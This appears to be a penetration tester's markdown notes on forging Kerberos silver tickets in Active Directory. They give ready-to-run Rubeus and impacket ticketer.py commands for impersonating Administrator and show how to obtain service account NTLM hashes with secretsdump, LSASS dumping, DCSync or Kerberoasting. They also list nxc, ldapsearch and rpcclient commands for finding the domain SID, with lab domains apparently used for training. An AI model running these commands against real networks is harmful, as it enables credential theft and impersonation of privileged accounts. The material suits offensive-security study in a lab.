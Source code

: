 we can forge a service ticket if we have:
- plain-text password or NTLM hash of a service account (secretdump -mimkatz LSASS dump - DCSync)
- Service Principal Name (SPN) of that service
- FQDN
- Domain SID (optional for some tools)

Tools:
1. rubeus
```powershell
rubeus.exe silver /service:MSSQLSvc/lol.local:1433 /rc4:<NTLM> /sid:<DOMAIN_SID> /user:Administrator /domain:<DOMAIN> /ptt
```
2. `tickter.py`
```shell
python3 ticketer.py <TARGET (domain name)> -nthash <NTHASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -dc-ip 10.10.10.1 -spn cifs/test.local -user Administrator

export KRB5CCNAME=./Administrator.ccache

#then confirm that it's there
klist
```



> [!NOTE] NOTE
> this whole tickets forging thing will be useless IF the service did a PAC validation which is rare. Any service that runs inside services.msc will not use PAC validation. 

---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```